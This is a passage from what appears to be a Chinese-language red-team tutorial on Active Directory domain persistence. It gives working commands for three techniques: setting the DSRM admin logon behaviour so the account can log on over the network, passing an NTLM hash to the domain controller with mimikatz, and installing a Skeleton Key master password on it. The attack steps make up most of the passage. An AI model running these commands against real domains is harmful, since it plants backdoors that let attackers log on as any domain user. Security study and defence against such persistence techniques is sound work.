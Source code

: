 3.  修改 DSRM 的登录方式

DSRM 有三种登录方式，具体如下：

> 0：默认值，只有当域控制器重启并进入 DSRM 模式时，才可以使用 DSRM 管理员账号 1：只有当本地 AD、DS 服务停止时，才可以使用 DSRM 管理员账号登录域控制器 2：在任何情况下，都可以使用 DSRM 管理员账号登录域控制器

在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。如果要使用 DSRM 账号通过网络登录域控制器，需要将该值设置为 `2`。输入如下命令，可以使用 PowerShell 进行更改。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD<br>``` |

4.  使用本地 administrator 账号哈希传递攻击域控

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>sekurlsa::pth /domain:DC /user:administrator /ntlm:0f0de1776a3bf0f2a29b6f15b6fcba42<br>``` |

##### [](#2122-%E5%B0%86-dsrm-%E7%9A%84%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E4%B8%BA%E4%B8%80%E4%B8%AA%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%B7%B2%E7%9F%A5%E5%AF%86%E7%A0%81)2.1.2.2 将 DSRM 的密码同步为一个域用户的已知密码

其余方法同上。

### [](#22-skeleton-key-%E4%B8%87%E8%83%BD%E5%AF%86%E7%A0%81)2.2 Skeleton Key 万能密码

> Skeleton Key 被安装在 64 位的域控服务器上 支持 Windows Server2003 — Windows Server2012 R2 能够让所有域用户使用同一个万能密码进行登录 现有的所有域用户使用原密码仍能继续登录 重启后失效

使用 Skeleton Key 攻击时，NTLM、Kerberos 两种身份验证方法都会被篡改。 例如，在NTLM身份验证期间，已注入 LSASS 进程中的主密码哈希将不会与SAM数据库进行比较，而将与 Skeleton Key 哈希进行比较，因此，身份验证将成功。

Kerberos 加密也将降级为不支持 Salt（RC4\_HMAC\_MD5）的算法，并且从活动目录中检索到的哈希将替换为 Skeleton Key 哈希。 因此，主密码的哈希值将始终在服务器端进行验证，并且两种方法的身份验证都将成功。

#### [](#221-%E5%9C%A8%E5%9F%9F%E6%8E%A7%E4%B8%8A%E5%AE%89%E8%A3%85-skeleton-key)2.2.1 在域控上安装 Skeleton Key

mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print](assets/1699409504-8ece0e4853812ff45511b7dbf559a1e0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print")

